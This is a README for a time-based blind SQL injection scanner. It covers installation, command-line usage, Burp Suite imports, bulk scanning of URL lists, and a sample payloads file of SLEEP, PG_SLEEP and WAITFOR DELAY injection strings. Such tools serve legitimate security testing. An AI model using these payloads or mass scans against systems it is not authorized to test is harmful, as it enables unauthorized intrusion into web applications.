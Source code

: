# BSQLi - Blind SQL Injection Scanner

**BSQLi** is an advanced Blind SQL Injection scanner that uses time-based detection techniques to identify vulnerabilities in web applications.

## Key Features
- 🔍 **Automatic Parameter Detection**: Automatically analyzes URLs, request bodies, cookies, and JSON parameters
- ⏱️ **Time-Based Detection**: Identifies vulnerabilities through response delays
- 📁 **Burp Suite Compatibility**: Directly imports Burp Suite request files
- 🎯 **Flexible Scanning**: Supports single targets and massive lists
- 📊 **Detailed Reporting**: Generates comprehensive vulnerability reports

## Installation
```bash
git clone https://github.com/your-username/bsqli.git
cd bsqli
pip3 install requests urllib3
```

## Basic Usage
### Single URL Scanning
```bash
# Basic URL scan
python3 BSQLi.py -u "http://example.com/page.php?id=1" -w payloads.txt

# With custom threshold
python3 BSQLi.py -u "http://example.com/page.php?id=1" -w payloads.txt -t 5

# Specific parameter testing
python3 BSQLi.py -u "http://example.com/page.php?id=1&search=test" -w payloads.txt -p "id"
```

### Using Burp Suite Files
```bash
# Scan from Burp file
python3 BSQLi.py -r request.txt -w payloads.txt

# With verbose mode for debugging
python3 BSQLi.py -r request.txt -w payloads.txt -v
```

### Bulk Scanning
```bash
# Scan URL list
python3 BSQLi.py -l urls.txt -w payloads.txt

# With custom timeout
python3 BSQLi.py -l urls.txt -w payloads.txt --timeout 60
```

### Generating Reports
```bash
# Save results to file
python3 BSQLi.py -u "http://example.com/page.php?id=1" -w payloads.txt -o report.txt

# Bulk scan with report
python3 BSQLi.py -l urls.txt -w payloads.txt -o bulk_report.txt
```

## Practical Examples
### Example 1: Simple Target
```bash
python3 BSQLi.py -u "http://testphp.vulnweb.com/artists.php?artist=1" -w payloads/time-based.txt
```

### Example 2: With Burp File
```bash
# Export request from Burp Suite and save as 'request.txt'
python3 BSQLi.py -r request.txt -w payloads/time-based.txt -v
```

### Example 3: Mass Website Scanning
```bash
# Create 'targets.txt' file with URLs:
# http://site1.com/page?q=test
# http://site2.com/search?id=123
# http://site3.com/api/user?uid=1

python3 BSQLi.py -l targets.txt -w payloads/time-based.txt -t 8 -o scan_results.txt
```

### Example 4: Specific Parameter
```bash
python3 BSQLi.py -u "http://example.com/login?user=admin&pass=123" -w payloads.txt -p "user"
```

## Advanced Options
```bash
# Verbose mode for debugging
python3 BSQLi.py -u "http://example.com" -w payloads.txt -v

# Custom timeout (seconds)
python3 BSQLi.py -u "http://example.com" -w payloads.txt --timeout 45

# More sensitive detection threshold
python3 BSQLi.py -u "http://example.com" -w payloads.txt -t 3
```

## Input Formats
```bash
http://site1.com/page?param=value
http://site2.com/search?q=test
https://site3.com/api/data?id=123
```

### Payloads File (`-w`)
```bash
' OR SLEEP(5)--
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
'||PG_SLEEP(5)--
' WAITFOR DELAY '00:00:05'--
```

### Burp Suite File (`-r`)
```bash
GET /page.php?id=1 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Cookie: session=abc123
Content-Type: application/x-www-form-urlencoded
```

## Detection Capabilities
- ✅ **GET/POST Parameters**
- ✅ **Cookies**
- ✅ **JSON Parameters**
- ✅ **Custom Headers**
- ✅ **HTTP Redirects**
- ✅ **Multiple HTTP Methods**

## Important Notes
- ⚠️ Only use on authorized systems
- 🔒 Script does not apply encoding to payloads
- 📈 Adjust threshold according to application latency
- 🐛 Use `-v` for debugging if issues occur